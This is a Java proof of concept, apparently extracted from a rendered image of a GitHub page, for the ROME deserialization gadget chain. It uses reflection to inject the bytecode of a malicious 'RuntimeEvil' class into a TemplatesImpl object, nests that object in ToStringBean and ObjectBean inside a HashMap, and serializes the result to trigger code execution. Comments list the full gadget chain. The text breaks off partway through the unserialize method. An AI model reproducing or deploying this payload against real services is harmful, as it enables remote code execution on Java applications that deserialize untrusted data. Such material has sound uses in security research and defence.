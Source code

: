 POC：

```java
package org.exploit.third.rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

//HashMap<K,V>.readObject(ObjectInputStream)
//HashMap<K,V>.hash(Object)
//ObjectBean.hashCode()
//EqualsBean.hashCode()
//EqualsBean.beanHashCode()
//ToStringBean.toString()
//ToStringBean.toString(String)
//TemplatesImpl.getOutputProperties()
public class Rome {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        TemplatesImpl fakeTemplates = new TemplatesImpl();
        ToStringBean toStringBean = new ToStringBean(Templates.class, fakeTemplates);//防止提前触发
//        toStringBean.toString();
//        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "godown");
        Field toStringBean_objField = ToStringBean.class.getDeclaredField("_obj");
        toStringBean_objField.setAccessible(true);
        toStringBean_objField.set(toStringBean, templatesClass);
        serialize(hashMap);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
```